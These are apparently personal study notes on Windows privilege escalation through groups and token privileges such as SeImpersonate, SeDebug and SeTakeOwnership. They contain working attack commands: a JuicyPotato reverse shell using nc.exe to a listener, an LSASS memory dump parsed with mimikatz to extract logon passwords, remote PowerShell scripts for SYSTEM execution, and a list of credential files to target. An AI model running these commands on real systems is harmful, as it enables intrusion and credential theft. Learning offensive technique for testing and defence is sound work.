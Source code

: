 
Authority Levels:
	1. NT Authority\ System 
	2. administrator 
	3. Administrators 
	4. non-privileged domain user part of admin group.
	5. Domain user part of a Administrator group.

Authorisation Process 
	Every Security Identifier is identified by a unique Security Identifier (SID)
		https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers
	Windows authorisation and access control process
	 Users access tokens are compared against [Access Control Entries (ACE)](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-entries)
	 		
	 ![[Windows Authorisation Process.png]]
		 https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-principals

Group/ User Rights and Privileges 
	[Master  List](https://ss64.com/nt/syntax-security_groups.html)
	Groups
		Default Administrators 
			Domain Admins and Enterprise Admins are "Super Groups"
		Server Operators 
			Members can modify services, access SMB shares and backup files
		Backup Operators
			Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.
		Print Operators
			Members can logon to DCs locally and "trick" windows into loading a malicious driver. 
		Hyper-V Administrators
			If a Virtual DCs is present these should be considered domain admins
		Account Operators
			Modify non-protected accounts and groups in the domain
		Remote Desktop Users
			Not given any useful permission by default but often given rights such as: "Alow Login through RDP" and can move laterally through RDP
		Remote Management Users 
			Can log on to DCs with PSremoting
		Group Policy Creator Owners
			can create new GPOs but would never be delegated permissions to link GPOs to a container like a DC
		Schema Admins
			Members can modify the Active Directory schema structure and backdoor any-to-be created Group/GPO by adding a compromised account to the default object ACL.
		DNS Admins
			Can load DLL in a DC. Cannot restart the DNS server. Load a malicious DLL and wait for reboot as a persistence mechanism.  
			May often result in a crash. better to exploit a WDAP record. 
				https://cube0x0.github.io/Pocing-Beyond-DA/
	Users
		https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment
		List user assigned rights - whoami /priv
	Standard rights 
		Administrator	```
			SeIncreaseQuotaPrivilege
			SeSecurityPrivilege
			SeTakeOwnershipPrivilege
			SeLoadDriverPrivilege
			SeSystemProfilePrivilege
			SeSystemtimePrivilege
			SeProfileSingleProcessPrivilege
			SeIncreaseBasePriorityPrivilege
			SeCreatePagefilePrivilege
			SeBackupPrivilege
			SeRestorePrivilege
			SeShutdownPrivilege 
			SeDebugPrivilege    
			SeSystemEnvironmentPrivilege
			SeChangeNotifyPrivilege
			SeRemoteShutdownPrivilege 
			SeUndockPrivilege
			SeManageVolumePrivilege
			SeImpersonatePrivilege
			SeCreateGlobalPrivilege
			SeIncreaseWorkingSetPrivilege
			SeTimeZonePrivilege
			SeCreateSymbolicLinkPrivilege
			SeDelegateSessionUserImpersonatePrivilege
			```
		User  ```
			SeChangeNotifyPrivilege
			SeIncreaseWorkingSetPrivilege
			```
		Backup Operator ```
			SeShutdownPrivilege 
			SeChangeNotifiyPrivilege
			SeIncreaseWorkingSePrivilege
			```

SeImpersonate and SeAssignPrimaryToken
	SeImpersonate privilege is needed to utilise tokens. 
		[Only given to administrative accounts.](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)
		Can call other process token to escalate privileges to system. 
			Make a call to the WinLogon process to get a system token.
			[Trick a process into running as System to connect to their process.](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)
	Use JuicyPotato to escalate privileges.
		```xp_cmdshell <dir to file>JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe <listner ip> <listen port> -e cmd.exe" -t * ```
		``` sudo nc -lnvp 8443  ```
		Windows Server 2019 and Windows 10 1809+
			Need to use PrintSpoofer / RoguePotato instead.

SeDebugPrivilige
	Run an application or service with troubleshooting with this privilege.
		By default only administrators are assigned this.
	Use [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) to leverage the privilege and dump process memory. *(LSASS WORKS WELL)*
			`procdump.exe -accepteula -ma lsass.exe lsass.dmp`
			This can then be loaded into Mimikatz
				`mimikatz.exe`
				`sekurlsa::minidump lsass.dmp`
				`sekurlsa::logonpasswords`
		Manual dump of LSASS memory from task manager.
		![[Dump File.png]] 
[Remote Code Execution](https://decoder.cloud/2018/02/02/getting-system/)
	[Script to use:](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
				Run with this syntax : `[MyProcess]::CreateProcessFromParent(<system_pid>,"c:\windows\system32\cmd.exe" <or any cmd>,"")`
			get the system pid with `tasklist`
			![[psgetsys script.png]]

SeTakeOwnershipPrivilige
	Allows a user to take ownership of any "securable object"
		Active Directory objects, NTFS files/folders, printers, registry keys, services and processes.
	Assigns WRITE_OWNER rights
	Most commonly service user accounts. 
	![[SeTakeOwnership Privilige.png]]
		- `Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`
[How to leverage:](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)
	[Script to use:](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
	`whoami /priv`
		check you have privilege
	`Import-Module .\Enable-Privilege.ps1`
	`.\EnableAllTokenPrivs.ps1`
	`whoami /priv`
	Target an interesting file you have found:
		```Get-ChildItem -Path '<file to target>' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}```
	Check File Ownership:
		 `cmd /c dir /q '<path to folder>'`
	 Take Ownership of file:
			`takeown /f '<path to file>'
	Confirming Ownership Changed:
		`Get-ChildItem -Path <path to file>' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`
	ACL may need to be modified:
		`icacls '<path to file>' /grant <username>:F'
	Interesting Files:
		````c:\inetpub\wwwwroot\web.config
		%WINDIR%\repair\sam
		%WINDIR%\repair\system
		%WINDIR%\system32\config\SecEvent.Evt
		%WINDIR%\system32\config\default.sav
		%WINDIR%\system32\config\security.sav
		%WINDIR%\system32\config\software.sav
		%WINDIR%\system32\config\system.sav
		passwords.*
		pass.*
		creds.*
		*.kdbx
		````
